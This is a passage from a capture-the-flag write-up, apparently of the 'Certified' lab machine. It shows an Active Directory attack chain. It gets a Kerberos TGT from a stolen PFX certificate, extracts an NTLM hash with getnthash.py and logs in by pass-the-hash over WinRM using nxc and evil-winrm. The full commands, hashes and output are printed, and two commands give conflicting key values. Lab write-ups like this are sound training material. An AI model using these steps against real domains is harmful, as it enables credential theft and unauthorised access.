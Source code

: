 This will return a hash and a _URL_ to clone the repository, which contains tools to obtain our [TGT](# "TGT: Ticket Granting Ticket issued by the KDC in Kerberos, used to request other service tickets without re-sending credentials."). 

Requirements to use it: 

    > .pfx file
    > [i] Passwort für PFX: <content>

```python
python3 gettgtpkinit.py -cert-pfx bULgmTV1.pfx -pfx-pass bGF4SsQMag0V5oke1LTg -dc-ip 10.10.11.41 certified.htb/management_svc management.ccache
```
<span style="font-size:12px">_To use this tool, your time and the victim's must be synchronized. This can be done with `ntpdate`._</span>

![tgt](../../../../../assets/certified/tgt.png)

- [getnthash.py](# "Impacket script that extracts the NTLM hash of a user in Active Directory using their valid credentials.") to extract the hash.

```
python3 getnthash.py -key ac0dc7ee3fcba2a2bf12be74a37e15607bb61d8766e3b7de09b100aa0d485a0b -dc-ip 10.10.11.41 certified.htb/management_svc
```

If it gives an error indicating that the TGT was not found in the Kerberos cache, we must specify it using the `KRB5CCNAME` variable.

```bash
KRB5CCNAME=management.ccache python3 getnthash.py -key ee16ec89d07c92667f8a3e1535269f5dcd606eba51f09f3375515ecfec46fff0 -dc-ip 10.10.11.41 certified.htb/management_svc
```

##### Logging in as the user management_svc

With the hash obtained, we confirm if we can connect via WinRM.

```bash
nxc winrm certified.htb -u "management_svc" -H 'a091c1832bcdd4677c28b5a6a1295584'
WINRM       10.10.11.41     5985   DC01             [+] certified.htb\management_svc:a091c1832bcdd4677c28b5a6a1295584 (Pwn3d!)
```

Indeed, we can connect with _evil-winrm_. On the desktop we will find the first flag.

```
evil-winrm -i 10.10.11.41 -u management_svc -H a091c1832bcdd4677c28b5a6a1295584
```

#### Accessing as administrator

Since we have the hashes of the user _management_svc_, we can run another _Shadow Credentials_ attack.

